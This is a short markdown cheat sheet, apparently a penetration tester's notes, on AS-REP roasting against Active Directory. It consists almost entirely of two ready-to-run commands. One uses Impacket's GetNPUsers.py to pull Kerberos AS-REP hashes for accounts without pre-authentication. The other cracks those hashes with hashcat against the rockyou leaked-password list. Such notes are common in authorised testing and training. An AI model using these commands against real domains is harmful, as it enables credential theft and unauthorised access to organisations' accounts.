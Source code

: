 # ActiveDirectory

## AS REP roasting

Create a file with users.txt with usersnames.


```sh
GetNPUsers.py DOMAIN.LOCAL/ -usersfile ./users.txt -k -format hashcat -no-pass -o hashes.txt
```

Crack the AS REP hash with hashcat.

```sh
hashcat -m 18200 -a 0 -o results.txt --remove ./hashes.txt /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

